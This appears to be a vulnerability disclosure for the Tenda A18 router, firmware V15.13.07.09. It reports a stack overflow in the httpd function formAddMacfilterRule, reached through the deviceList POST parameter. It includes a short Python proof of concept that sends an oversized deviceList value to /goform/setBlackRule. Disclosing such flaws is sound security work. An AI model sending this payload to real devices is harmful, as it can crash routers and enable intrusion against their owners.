



## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

httpd in the /bin directory has a stack overflow vulnerability. The vulnerability is in the `formAddMacfilterRule` function. This function takes the POST argument `deviceList` and passed it to function `parse_macfilter_rule`. `parse_macfilter_rule` copies it to the memory pointed by the second argument without checking the length. The memory that this second argument points to is the stack of the `formAddMacfilterRule` function.





## PoC

```python
import requests

data = {
    b"deviceList": b'A'*0x200 + b'\r'
}

requests.post("http://127.0.0.1/goform/setBlackRule", data = data)
```

